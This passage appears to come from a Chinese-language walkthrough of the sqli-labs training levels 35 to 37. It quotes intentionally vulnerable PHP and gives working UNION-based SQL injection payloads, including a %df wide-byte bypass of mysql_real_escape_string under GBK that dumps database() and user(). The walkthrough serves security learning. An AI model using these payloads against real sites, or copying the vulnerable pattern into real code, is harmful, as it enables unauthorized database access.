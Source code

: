 ?id=-1 union select 1,database(),3--+



## 0X28Less-36

```
function check_quotes($string)
{
    $string= mysql_real_escape_string($string);    
    return $string;
}
$id=check_quotes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
print_r(mysql_error());
```

上面的check_quotes()函数是利用了mysql_real_escape_string()函数进行的过滤。

mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

下列字符受影响：

- \x00
- \n
- \r
- \
- '
- "
- \x1a

如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。

但是因mysql我们并没有设置成gbk，所以mysql_real_escape_string()依旧能够被突破。方法和上述是一样的。

利用%df

#失败，尝试--+成功

![image-20201111164349961](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111164349961.png)



利用 ' 的utf-16突破

?id=-1%EF%BF%BD%27union select 1,user(),3--+

![image-20201111164656050](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111164656050.png)



## 0X29Less-37



```
$uname1=$_POST['uname'];
$passwd1=$_POST['passwd'];

$uname = mysql_real_escape_string($uname1);
$passwd= mysql_real_escape_string($passwd1);

mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```
